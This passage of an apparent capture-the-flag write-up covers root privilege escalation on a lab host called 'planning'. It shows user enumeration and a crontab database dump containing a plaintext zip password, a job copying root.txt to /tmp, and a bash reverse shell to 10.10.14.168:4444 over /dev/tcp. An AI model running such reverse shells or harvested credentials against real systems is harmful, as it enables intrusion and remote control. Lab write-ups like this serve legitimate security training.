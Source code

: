 ### User root

I start by checking my user privileges:

```bash
enzo@planning:~ sudo -l
[sudo] password for enzo: 
Sorry, user enzo may not run sudo on planning.
```

I start by checking if my user enzo belongs to any special groups that might give me extra privileges.

```bash
enzo@planning:~ id
uid=1000(enzo) gid=1000(enzo) groups=1000(enzo)
```

I look for SUID binaries to find potential privilege escalation vectors:

```bash
enzo@planning:~ find / -perm 4000 2>/dev/null
```

I find a crontab database file /opt/crontabs/crontab.db:

```bash
enzo@planning:/opt/crontabs$ cat crontab.db 
{"name":"Grafana backup","command":"/usr/bin/docker save root_grafana -o /var/backups/grafana.tar && /usr/bin/gzip /var/backups/grafana.tar && zip -P P4ssw0rdS0pRi0T3c /var/backups/grafana.tar.gz.zip /var/backups/grafana.tar.gz && rm /var/backups/grafana.tar.gz","schedule":"@daily","stopped":false,"timestamp":"Fri Feb 28 2025 20:36:23 GMT+0000 (Coordinated Universal Time)","logging":"false","mailing":{},"created":1740774983276,"saved":false,"_id":"GTI22PpoJNtRKg0W"}
{"name":"Cleanup","command":"cat root/root.txt >> /tmp/root.txt","schedule":"* * * * *","timestamp":"Tue Jul 08 2025 13:56:17 GMT+0000 (Coordinated Universal Time)","logging":"false","mailing":{},"saved":false,"_id":"gNIRXh1WIc9K7BYX"}
{"name":"","command":"bash -c 'exec bash -i &>/dev/tcp/10.10.14.168/4444 <&1'","schedule":"* * * * *","stopped":false,"timestamp":"Tue Jul 08 2025 15:12:00 GMT+0000 (Coordinated Universal Time)","logging":"false","mailing":{},"created":1751987520623,"saved":false,"_id":"q9UiD59tFnjsPCAJ"}
```

I check open network ports using `ss -tuln`.

```bash
ss -tuln
Netid      State       Recv-Q      Send-Q             Local Address:Port              Peer Address:Port      Process      
udp        UNCONN      0           0                     127.0.0.54:53                     0.0.0.0:*                      
udp        UNCONN      0           0                  127.0.0.53%lo:53                     0.0.0.0:*                      
tcp        LISTEN      0           151                    127.0.0.1:3306                   0.0.0.0:*                      
tcp        LISTEN      0           70                     127.0.0.1:33060                  0.0.0.0:*                      
tcp        LISTEN      0           4096                   127.0.0.1:40245                  0.0.0.0:*                      
tcp        LISTEN      0           4096               127.0.0.53%lo:53                     0.0.0.0:*                      
tcp        LISTEN      0           511                      0.0.0.0:80                     0.0.0.0:*                      
tcp        LISTEN      0           4096                   127.0.0.1:3000                   0.0.0.0:*                      
tcp        LISTEN      0           4096                  127.0.0.54:53                     0.0.0.0:*                      
tcp        LISTEN      0           511                    127.0.0.1:8000                   0.0.0.0:*                      
tcp        LISTEN      0           4096                           *:22                           *:*                     
```